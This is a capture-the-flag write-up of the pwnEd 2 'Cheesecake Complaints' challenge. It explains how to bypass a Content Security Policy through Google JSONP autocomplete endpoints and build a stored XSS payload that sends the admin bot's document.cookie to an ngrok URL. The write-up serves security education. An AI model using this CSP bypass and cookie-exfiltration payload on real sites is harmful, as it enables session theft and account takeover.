Here's my writeup of the Cheesecake Complaints from the [pwnEd 2 CTF](https://pwned.sigint.mx), hosted by Edinburgh University.

The challenge description tells us that there is a secret cookie that we need to steal.



Once we navigate to the URL provided, we are greeted with a cheesecake review form with a Google reCAPTCHA. Let's firstly observe what happens once we submit a review.



We're given a link to the review and the helpful message `An admin will review it shortly`. My guess was that the page was going to be read by an administrator after submission, using the secret cookie to access it.



As expected, navigating to the link shows us our submitted content.



The next thing to try is whether any form of XSS protection is applied. By submitting `<strong>hello world</strong>`, we can see that there is no immediate XSS filtering.


Now, let's try include some Javascript using an inline `<script>` tag. Submitting the content `<script>alert(1);</script>` gave us our first indication into what this challenge is looking for.



We cannot run inline script content due to the Content Security Policy given by the page. The CSP provides an extra layer of security that prevents web browsers from executing certain types of content and is very helpful in preventing trivial XSS attacks.

My next step was to run this site through Google's CSP validator, which provides useful reporting on a site's CSP and whether it can be exploited.



`www.google.com is known to host JSONP endpoints which allow to bypass this CSP.` Bingo! The next step is a lot of googling for these "JSONP endpoints." The top result when you search `google.com JSONP endpoints` is [JSONBee](https://github.com/zigoo0/JSONBee), a GitHub repository with lots of JSONP endpoints that can be exploited for sites commonly included in allowed script-srcs in CSP.

The first payload listed for Google is `<script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>`. Submitting that as a review gives us something very promising.



I spent a while playing around with this. One problem with the `callback` parameter is that it will only accept letters, numbers and dots. This means we're very restricted on the types of commands that we can execute and are restricted to calling already defined Javascript functions. After some more googling, I found [this blog post](https://shreyaschand.com/blog/2013/01/03/google-autocomplete-api/) talking about the Autocomplete API and most usefully, the `jsonp` query. So I gave this query a go and for some reason, this endpoint accepted a wider range of characters, most importantly, backticks, parathenese and the equal sign. 

My next payload was just a simple alert (note the use of backticks around the alert string): ```<script src="https://www.google.com/complete/search?client=chrome&q=hello&jsonp=alert(`hello`)"></script>```. However, when I opened up the review, there was no alert but there was an error in the console.



This is good, as it means the function is being called, however it's being called with weird parameters. If we click ```search?client=chrome...np=alert(`hello`):1```, we can see where the error comes from.



The JSONP callback is essentially prepended to the data. Therefore, it's attempting to call the function ```alert(`hello`)``` with the data returned from the Google endpoint. Therefore, I tried adding something after the alert call to prevent the parameters being used to call my intended function. My next payload was ```<script src="https://www.google.com/complete/search?client=chrome&q=hello&jsonp=alert(`hello`);console.log"></script>```






By using the JSONP callback ```alert(`hello`);console.log```, my alert function is called, and then the JSON data is appended to the console.log, meaning the JSON result will be outputted to the console instead. This is exciting as we can chain together multiple Javascript functions. At this point, we're ready to start considering stealing the secret cookie.

After some exploration, I decided to use a HTML form which could submit data to a local webserver. I could automatically cause the form to be submitted using the `jsonp` query. In this time, I also confirmed that the review is automatically opened up by HeadlessChrome being submitted. To run a quick webserver, I used an Apache & Docker image with ngrok, which allows me to quickly punch through my firewall so the website is accessible from the outside world.

```
docker run --name cheesecake-listener -p 8080:80 romeoz/docker-apache-php
ngrok http 8080
```

[ngrok](https://ngrok.com/) gives you a URL on their server which acts as a reverse proxy for your localhost site. This makes it super easy to host arbitary localhost sites for a short period of time without having to worry about port forwarding or setting up the webserver on a VPS.

I used this payload, which includes a POST form where the action is my ngrok URL and the `jsonp` query will set the input's value to document.cookie and automatically submit the form.

```
<form action="http://363822625688.eu.ngrok.io/output.php" method="POST" id="form">
    <input name="hello" id="cookie"/>
</form>

<script src="https://www.google.com/complete/search?client=chrome&q=hello&jsonp=document.getElementById(`cookie`).value=document.cookie;document.getElementById(`form`).submit();console.log"></script>
```

Looking in ngrok's web interface, we can see the request and most importantly, the form parameters that were included with the request.



And there's our flag! This was my second blood in this CTF and I was super happy with the result. The `jsonp` query appears to be fairly unknown and finding it meant I was able to chain multiple Javascript functions and not be restricted to just letters, numbers and dots. 

This blog post can also be found on Josh's personal site: https://techsupportjosh.com/posts/pwned-ctf-cheesecake/